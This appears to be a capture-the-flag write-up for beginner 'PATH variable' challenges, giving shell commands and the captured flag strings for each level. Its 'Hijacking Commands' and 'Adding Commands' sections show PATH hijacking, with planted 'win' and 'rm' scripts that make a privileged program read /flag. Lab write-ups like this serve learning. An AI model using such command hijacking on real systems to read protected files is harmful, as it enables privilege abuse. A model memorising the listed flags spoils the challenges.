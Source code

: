 ### The PATH Variable

1. **Clear the PATH:**
   ```bash
   PATH=""
   ```

2. **Run the Program:**
   ```bash
   /challenge/run
   ```

**Flag:** VhEo3V4p7WZ2qThTnVQdWQY7Uq.wWwFhJQY4pvA0pvJ
---

### Setting PATH

1. **Set the PATH:**
   ```bash
   PATH=/challenge/more_commands
   ```

2. **Run the Program:**
   ```bash
   /challenge/run
   ```

**Flag:** VZFDDcZJQdA3V6wKHEwIYFqWqHk.wIhAdLQY4pvA0pvJ

---

### Adding Commands

1. **Method 1: Locating the cat Command**
   - **Find the Location of `cat`:**
     ```bash
     which cat
     ```

   - **Create the win Script:**
     ```bash
     echo '/usr/bin/cat /flag' > win
     ```

   - **Update the PATH:**
     ```bash
     export PATH=$PATH:./
     ```

   - **Run the Program:**
     ```bash
     /challenge/run
     ```

   **Flag:** 8lJd6gEhpB4DfhVQ7V4sJkJbHq.wWwFhJQY4pvA0pvJ

2. **Method 2: Adding Current Directory to PATH**
   - **Update the PATH:**
     ```bash
     export PATH=$PATH:./
     ```

   - **Create the win Script:**
     ```bash
     echo 'cat /flag' > win
     ```

   - **Run the Program:**
     ```bash
     /challenge/run
     ```

   **Flag:** 8lJd6gEhpB4DfhVQ7V4sJkJbHq.wWwFhJQY4pvA0pvJ

3. **Method 3: Using `read` to Access the Flag**
   - **Create the win Script with `read`:**
     ```bash
     echo 'read flag < /flag; echo $flag' > win
     ```

   - **Update the PATH:**
     ```bash
     export PATH=$PATH:./
     ```

   - **Run the Program:**
     ```bash
     /challenge/run
     ```

   **Flag:** 8lJd6gEhpB4DfhVQ7V4sJkJbHq.wWwFhJQY4pvA0pvJ

---

### Hijacking Commands

1. **Create a Custom `rm` Command:**
   ```bash
   echo -e '#!/bin/bash\n# Custom rm command to do nothing\nexit 0' > rm
   ```

2. **Update the PATH:**
   ```bash
   export PATH=~/:$PATH
   ```

3. **Run the Program:**
   ```bash
   /challenge/run
   ```

4. **Modify the Custom `rm` Command to Display the Flag:**
   ```bash
   echo "cat /flag" > rm
   ```

5. **Run the Program Again:**
   ```bash
   /challenge/run
   ```

**Flag:**  854e0YQnWJUGJxqWgCqEwK9W22u.wWwFhJQY5pv9qvJ
